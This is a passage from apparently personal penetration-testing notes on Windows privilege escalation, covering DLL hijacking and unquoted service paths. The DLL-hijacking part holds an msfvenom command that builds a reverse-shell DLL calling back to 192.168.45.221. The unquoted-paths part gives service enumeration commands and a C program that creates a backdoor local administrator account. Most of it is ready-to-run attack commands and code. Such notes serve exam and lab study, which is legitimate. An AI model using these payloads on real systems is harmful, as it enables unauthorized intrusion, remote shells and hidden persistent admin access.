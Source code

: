 ```cpp
    }
    return TRUE;
}
```

compile on kali
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

or revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.221 LPORT=9999 -f dll > beyondhelper.dll
```

locate in the right path and restsrt the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### Unquoted Service Paths

when there are services that running and in the name of the path there are space between two words, we can abuse the way that the the service search for the exe and create our own exe
for example:
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

tools:

- enumerate running and stopped services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# run in cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- add user as local admin script
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
